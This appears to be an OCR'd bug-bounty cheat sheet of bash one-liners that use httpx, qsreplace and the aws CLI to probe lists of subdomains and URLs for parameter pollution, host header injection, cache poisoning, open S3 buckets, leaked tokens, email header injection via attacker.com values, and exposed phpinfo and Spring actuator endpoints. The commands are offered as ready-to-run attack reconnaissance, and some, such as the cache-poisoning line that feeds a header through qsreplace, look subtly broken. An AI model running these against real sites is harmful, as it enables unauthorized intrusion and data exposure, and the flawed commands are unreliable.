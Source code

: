 ### HTTP Parameter Pollution (Duplicate Params)
```bash
cat all_urls.txt | qsreplace 'param1=value1&param1=value2' | httpx -silent -mc 200 -o hpp_candidates.txt
```

### Server Info Disclosure (Version Leaks)
```bash
cat subdomains.txt | httpx -silent -sc -title -o server_versions.txt
```

### Password Reset Token Leak in URL
```bash
cat all_urls.txt | grep -i 'reset' | grep -E 'token=|key=' | httpx -silent -o reset_token_leak.txt
```

### Host Header Injection
```bash
cat subdomains.txt | httpx -silent -H "Host: attacker.com" -fr "attacker.com" -o host_header_injection.txt
```

### Web Cache Poisoning
```bash
cat all_urls.txt | qsreplace 'X-Original-URL: /evil' | httpx -silent -fr 'evil' -o cache_poisoning.txt
```

### AWS Bucket Takeover (S3)
```bash
cat subdomains.txt | awk -F. '{print $1"."$2}' | while read domain; do aws s3 ls s3://$domain --no-sign-request; done
```

### Exposed Secret Tokens in Robots.txt
```bash
cat subdomains.txt | httpx -silent -path /robots.txt -fr 'token|key|secret' -o secret_leak_robots.txt
```

### Email Injection in Contact Forms
```bash
cat contact_forms_urls.txt | qsreplace 'email=attacker%0A%0DCC%3Aevil@attacker.com' | httpx -silent -mc 200 -o email_injection.txt
```

### PHP Info Disclosure (info.php)
```bash
cat subdomains.txt | httpx -silent -path /info.php -mc 200 -o phpinfo_exposed.txt
```

### Debug Endpoints Exposure (Spring Boot Actuator)
```bash
cat subdomains.txt | httpx -silent -path-list <(echo -e '/actuator/health\n/actuator/env\n/actuator/mappings') -mc 200 -o exposed_actuator.txt
```
